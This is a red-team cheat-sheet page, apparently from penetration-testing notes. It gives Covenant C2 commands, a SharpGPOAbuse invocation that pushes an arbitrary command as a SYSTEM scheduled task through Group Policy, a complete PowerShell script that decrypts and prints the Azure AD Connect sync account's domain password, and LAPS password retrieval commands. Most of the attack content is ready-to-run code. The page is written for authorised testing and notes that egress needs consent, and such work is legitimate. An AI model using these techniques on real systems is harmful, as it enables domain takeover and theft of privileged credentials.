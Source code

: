 # Misc

### Session IDs

On Windows processes run with session id 0 or 1.  Session ID 1 means the process was started by a legitimate user, while 0 is used for various processes spawned by the system. Sometimes having just a 0 session is a problem, in these cases we can just inject into a process that has 1.

### Covenant Misc

Change Delay/Sleep on existing grunt:

```text
Set Delay <seconds>
sleep <seconds>
```

Execute .Net directly with SharpShell:

```text
SharpShell return Shell.PowerShellExecute("whoami");
```

### GPO Abuse

Use [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) to modify/add GPOs. Covenant example:

```text
Assembly /assemblyname:"SharpGPOAbuse" /parameters:"--AddComputerTask --TaskName \"<taskname>\" --Author NT AUTHORITY\SYSTEM --Command \"cmd.exe\" --Arguments \"/c <cmd>\" --GPOName \"<gponame>\""
```

### Azure AD Connect

The credentials for the hash synchronisation account are stored locally in a database. They can be recovered with [ADConnectDump ](https://github.com/fox-it/adconnectdump)or directly via this script by [xpn](https://blog.xpnsec.com/azuread-connect-for-redteam/). You might need to modify the first line if its stored on a SQL Server instead of locally.

```text
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

### LAPS

If you are on a box with LAPS enabled and have the correct permissions you can get the password:

```text
 Get-AdmPwdPassword -ComputerName <>
```

PowerView can do it too:

```text
PowerShell Get-AdmPwdPassword -ComputerName <> | fl
```

### Exfiltrating Data

* Don't egress data without consent, there are dummy solutions for this: [https://github.com/FortyNorthSecurity/Egress-Assess](https://github.com/FortyNorthSecurity/Egress-Assess)

